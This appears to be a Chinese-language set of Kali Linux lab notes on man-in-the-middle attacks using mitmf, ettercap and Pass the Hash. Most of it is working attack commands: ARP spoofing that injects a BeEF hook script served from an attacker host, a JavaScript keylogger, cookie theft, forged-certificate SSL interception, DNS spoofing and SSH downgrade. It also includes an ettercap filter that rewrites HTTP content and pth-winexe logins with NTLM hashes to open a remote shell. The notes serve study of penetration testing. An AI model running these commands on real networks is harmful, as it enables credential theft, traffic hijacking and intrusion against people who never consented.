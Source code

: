 
# 中间人攻击

* mitmf
* ettercap
* Pass the Hash (PTH)

## mitmf
* 简介
1. 即使没有XSS漏洞，也可以凌空向每个HTTP请求中注入XSS攻击代码
2. 一旦得手，影响范围巨大
3. 如果中间人发生在运营商线路上，很难引起用户注意

* 曾经号称最好用的中间人攻击工具
``` 
# 安装环境
root@kali:~# apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file

# 安装 mitmf
root@kali:~# apt-get install mitmf
root@kali:~# pip uninstall Twisted
root@kali:~# wget http://twistedmatrix.com/Releases/Twisted/15.5/Twisted-15.5.0.tar.bz2
root@kali:~# pip install ./Twisted-15.5.0.tar.bz2 

```

* 启动beef
``` 
cd /usr/share/beef-xss/
./beef
```

* mitmf 中间人注入xss脚本
``` 
# 作为中间人连接网页并插入 js
root@kali:~# mitmf --spoof --arp -i eth0 --gateway 10.10.10.2 --target 10.10.10.133 --inject --js-url http://10.10.10.131:3000/hook.js

```


* 键盘记录器
``` 
# 键盘记录器 --jskeylogger
root@kali:~# mitmf --spoof --arp -i eth0 --gateway 10.10.10.2 --target 10.10.10.133 --jskeylogger

```

* 其他模块
``` 
# 图片：--upsidedownternet、--screen（/var/log/mitmf）
root@kali:~# mitmf --spoof --arp -i eth0 --gateway 10.10.10.2 --target 10.10.10.133 --upsidedownterne
# cookie：--ferretng（cookie）
root@kali:~# mitmf --spoof --arp -i eth0 --gateway 10.10.10.2 --target 10.10.10.133 --ferretng
# 浏览器及插件信息： --browserprofiler
# smb：--smbtrap、--smbauth（不演示）

```  

* 旁路 –hsts
1. HTTP Strict Transport Security
2. 防止协议降级、cookie窃取
3. 安全策略通过HTTP响应头 “Strict-Transport-Security“实施
4. 限制 user-agent、https 等


* 凌空插后门 –filepwn
1. 用户下载的可执行程序在经过代理的时候，会被插入后门



## ettercap

* 简介
1. 统一的中间人攻击工具
2. 转发 MAC 与本机相同，但 IP 与本机不同的数据包
3. 支持 SSH1、SSL 中间人攻击

* 模块划分
1. Snifer
``` 
负责数据包转发
Unified
    单网卡情况下独立完成三层包转发
    始终禁用内核 ip_forward 功能
Bridge
    双网卡情况下的一层 MITM 模式
    可作为 IPS 过滤数据包
    不可在网关上使用（透明网桥）
```

2. MITM
``` 
把流量重定向到 ettercap 主机上
可以使用其他工具实现 MITM，ettercap 只作嗅探和过滤使用
实现MITM的方法
    ARP
    ICMP
        ICMP路由重定向，半双工
    DHCP
        修改网关地址，半双工
    Switch Port Stealing
        flood目标地址是本机，源地址是受害者的包
        适用于ARP静态绑定的环境
    NDP
        IPv6协议欺骗技术
```

3. Filter
4. Log
5. Plugin

* 特性
1. 2.4以上内核对ARP地址欺骗的约束
    1. 收到非请求的 ARP 响应包，不更新本地 ARP 缓存
    2. Ettercap 使用ARP request 包进行攻击
2. Solaris 不根据ARP包更新本地ARP缓存
   1. Ettercap 使用先发 ICMP 包来更新 ARP 缓存


* 用户操作界面
1. -T 文本界面图形
2. -G 界面
3. -C 基于文本的图形界面
4. -D 后台模式

* 指定目标
``` 
IPv4：MAC/IPs/Ports
IPv6：MAC/IPs/IPv6/Ports
/10.0.0.1−5;10.0.1.33/20−25,80,110
```

* 权限
1. 需要root权限打开链路层Socket连接，然后使用nobody账号运行
2. 日志写入目录需要nobody有写入权
3. 修改etter.conf：EC_UID=65534


* 基于伪造证书的SSL MITIM
``` 
Bridge模式不支持SSL MITM
openssl genrsa −out etter.ssl.crt 1024
openssl req −new−keyetter.ssl.crt −out tmp.csr
openssl x509 −req −days 1825 −in tmp.csr −signkey etter.ssl.crt−out tmp.new
cat tmp.new>>etter.ssl.crt
rm −f tmp.newtmp.csr
```

* ARP 中间人攻击
1. 字符模式（arp 欺骗）
``` 
ettercap -i eth0 -T -M arp -q /10.10.10.2// /10.10.10.133// -F 1.ef -P autoadd -w a.cap -l loginfo -L logall -m message
```
2. 图形界面
3. SSL MITM
``` 
# 启用基于 SSL 的中间人攻击
vim /etc/ettercap/etter.conf
```

4. DNS欺骗
```
dns_spoof插件配置文件
vi /etc/ettercap/etter.dns
```

5. Ettercap 日志查看
``` 
etterlog -p log.eci
etterlog -c log.ecp
etterlog -c -f /1.1.1.1/ log.ecp
etterlog -B -n -s -F TCP:1.1.1.1:20:1.1.1.2:1234 log.ecp > aa 选择相应的连接并榨取文件
```

6. Filter
``` 
/usr/share/ettercap/
/usr/share/ettercap/etter.filter.ssh
```

7. SSH-2.xx / SSH-1.99 / SSH-1.51
```
SSH-1.99 代表兼容 ssh-2 和ssh1，可以使用 Filter 来只使用 ssh-1，利于监听
etterfilter etter.filter.ssh -o ssh.ef
```

8. 替换HTTP内容
``` 
if (ip.proto == TCP && tcp.src == 80)
{ msg(“data on TCP 80\n”);
replace(“img src=”, “img src=\”http://1.1.1.1/1.gif\” “);
replace(“IMG src=”, “img src=\”http://1.1.1.1/1.gif\” “);
replace(“IMG SRC=”, “img src=\”http://1.1.1.1/1.gif\” “);
}
```

9. 其他欺骗
1. ICMP
``` 
-M icmp:00:11:22:33:44:55/10.0.0.1（真实网关的MAC/IP）

```
2. DHCP
``` 
−M dhcp:192.168.0.30,35,50−60/255.255.255.0/192.168.0.1（DNS）
```
3. Port
``` 
-M port /1.1.1.1/ /1.1.1.2/

```
4. Ndp
``` 
-M ndp //fe80::260d:afff:fe6e:f378/ //2001:db8::2:1/
```

## Pass the Hash (PTH)
* 简介
1. 密码破解耗费时间资源巨大
2. 使用密文提交给服务器直接完成身份认证
3. NTLM/LM是没有加盐的静态HASH密文
4. 企业中使用ghost等工具克隆安装系统
5. pth-winexe -U w7%aad3b435b51404eeaad3b435b51404ee:ed1bfaeb3063 716ab7fe2a11faf126d8 //1.1.1.1 cmd

* 获取 win7 HASH 值
1. 使用 kali live iso 登录win7
2. nc 传输


* kali 使用 密文直接登录
``` 
root@kali:~# pth-winexe -U John%aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 //10.10.10.133 cmd
```
